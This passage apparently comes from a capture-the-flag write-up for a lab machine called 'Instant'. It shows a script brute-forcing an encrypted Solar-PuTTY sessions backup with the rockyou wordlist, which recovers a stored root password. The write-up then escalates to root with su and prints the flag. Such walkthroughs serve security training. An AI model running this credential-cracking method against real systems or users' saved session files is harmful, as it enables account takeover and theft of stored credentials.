 Let's use it:

```
python decrypt2.py sessions-backup.dat /usr/share/wordlists/rockyou.txt

-----------------------------------------------------
SolarPutty's Sessions Decrypter (Python Version)
-----------------------------------------------------
File content (first 50 bytes): b'ZJlEkpkqLgj2PlzCyLk4gtCfsGO2CMirJoxxdpclYTlEshKzJw'
Trying password: estrellaal
Potential successful decryption with password: estrella
Decrypted content (first 200 bytes):
b'\xacuY\xff\x11\xfbD\xba\xb3\xe2\xc8\x80pB\xbe\xceU\xed;\x8f)\x10\xb5Ins":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b'
```

Nice, let's read our decrypted file:

```
cat SolarPutty_sessions_decrypted_estrella.bin

[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

And we got our `root` password, these are the credentials:

```
`root`:`12**24nzC!r0c%q12`
```

We can now switch users:

```
shirohige@instant:/opt/backups/Solar-PuTTY$ su root
Password:
root@instant:/opt/backups/Solar-PuTTY# whoami
root
```

Nice, let's simply read `root.txt`:

```
root@instant:/opt/backups/Solar-PuTTY# cat /root/root.txt
605c2864e2457606e34dbd95472c04e3
```


![](cybersecurity/images/Pasted%2520image%252020250228180726.png)


